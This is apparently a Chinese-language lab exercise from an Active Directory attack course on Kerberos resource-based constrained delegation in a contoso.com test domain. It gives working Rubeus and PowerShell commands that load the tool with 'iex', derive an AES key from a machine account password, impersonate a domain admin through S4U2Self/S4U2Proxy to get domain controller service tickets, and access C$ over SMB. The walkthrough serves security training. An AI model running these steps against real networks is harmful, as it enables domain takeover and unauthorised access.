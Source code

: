 # Exercise 6 - Kerberos Ressource-based Constrained Delegation

## Tools

所需工具：

- PowerView: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- Rubeus: [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)


## Theory

### RBCD 正常用法

![](../images/2022-06-20-21-25-22.png)

### RBCD 攻擊

![](../images/2022-06-20-21-33-55.png)

## Exercise

實驗三中，攻擊者利用NTLM Relay將AD-01的RBCD(ressource-based constrained delegation)權限委派給evilpc$，在此實驗中我們將使用已擁有的evilpc$帳密模擬RDBC的攻擊，在此案例中，evilpc$可偽冒任意的domain user的身分使用AD-01上的任意服務。

使用最高權限載入所需powershell模組

```powershell
cd C:\attacker-tools
cat -raw .\Invoke-Rubeus.ps1 | iex
```

使用一個獨立於john的powershell session

```powershell
Invoke-Rubeus -Command "createnetonly /program:C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe /show"
```


利用evilpc$的明文密碼生成加密TGS封包的AES KEY

```powershell
Invoke-Rubeus -Command "hash /password:EvilPassword1 /domain:contoso.com /user:evil-pc$"
```

利用 S4U2SELF偽冒domain admin user `Bruce Willis` (bwillis)並使用S4U2PROXY分別取得AD-01上的CIFS、HOST和RPCSS的Service Ticket，
這三個SPN分別為以下服務:
- CIFS : SMB
- HOST、RPCSS : WMI


```powershell
Invoke-Rubeus -Command "s4u /user:evil-pc$ /aes256:<hash> /impersonateuser:bwillis /msdsspn:cifs/ad-01.contoso.com /ptt"
Invoke-Rubeus -Command "s4u /user:evil-pc$ /aes256:<hash> /impersonateuser:bwillis /msdsspn:host/ad-01.contoso.com /ptt"
Invoke-Rubeus -Command "s4u /user:evil-pc$ /aes256:<hash> /impersonateuser:bwillis /msdsspn:rpcss/ad-01.contoso.com /ptt"
```

- 查看kerberos票證

```powershell
klist
```

- 嘗試存取SMB
```powershell
ls \\ad-01.contoso.com\C$
```
